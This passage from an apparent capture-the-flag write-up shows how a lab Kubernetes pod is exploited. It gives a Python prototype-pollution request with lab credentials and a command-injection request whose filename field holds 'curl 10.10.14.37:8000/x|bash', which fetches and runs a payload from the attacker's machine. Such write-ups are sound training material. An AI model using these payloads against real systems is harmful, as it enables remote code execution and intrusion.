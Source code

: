 Seems like the pod is running on 172.17.0.5:3000

Let's fordward it to our box


<img src="forward.png">

Since we know that it's vulnerable to loadsh and we can turn it into an RCE! we'll be doing the same steps that we did for the foothold

```python
import requests

headers = {
    'content-type': 'application/json',
}

data = '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"__proto__":{canUpload":true}}}'

response = requests.put('http://localhost:9090/', headers=headers, data=data)
print(response.text)
``` 

```python
import requests

headers = {
    'Host': 'localhost:9090',
    'Connection': 'keep-alive',
    'Content-Length': '90',
    'Accept': 'application/json, text/javascript, */*; q=0.01',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36',
    'Content-Type': 'application/json',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'en-US',
}

data = '{\\"auth\\":{\\"name\\":\\"felamos\\",\\"password\\":\\"Winter2021\\"},\\"filename\\":\\"& curl 10.10.14.37:8000/x|bash\\"}'

response = requests.post('http://localhost:9090/upload', headers=headers, data=data, verify=False,proxies={'http':'http://127.0.0.1:8080'})

```
